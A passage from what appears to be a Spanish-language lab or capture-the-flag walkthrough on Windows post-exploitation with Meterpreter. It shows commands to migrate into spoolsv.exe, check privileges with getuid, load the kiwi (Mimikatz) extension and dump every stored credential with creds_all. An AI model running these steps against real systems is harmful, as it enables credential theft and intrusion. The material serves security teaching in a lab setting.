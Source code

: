 Migre a este proceso ahora con el comando 
```
migrate -N PROCESS_NAME
```
```
migrate -N spoolsv.exe
```
<p align="center">
    <img src="../img/Pasted_image_20240818225444.png" width="500">
</p>

Comprobemos qué usuario somos ahora con el comando `getuid`.
```
getuid
```
<p align="center">
    <img src="../img/Pasted_image_20240818225523.png" width="500">
</p>

##### ENUMERACIÓN VICITIMA - SAQUEO - LOOTING
`Mimikatz` es una herramienta de volcado de contraseñas bastante infame que es increíblemente útil. Cárgala ahora usando el comando `load kiwi` (Kiwi es la versión actualizada de Mimikatz)
```
load kiwi
```
<p align="center">
    <img src="../img/Pasted_image_20240818225640.png" width="500">
</p>

Cargar kiwi en nuestra sesión de meterpreter expandirá nuestro menú de ayuda, eche un vistazo a la sección recién agregada del menú de ayuda ahora a través del comando `help`.

Pero el comando que permite obtener todas las credenciales es `creds_all`
```
creds_all
```
<p align="center">
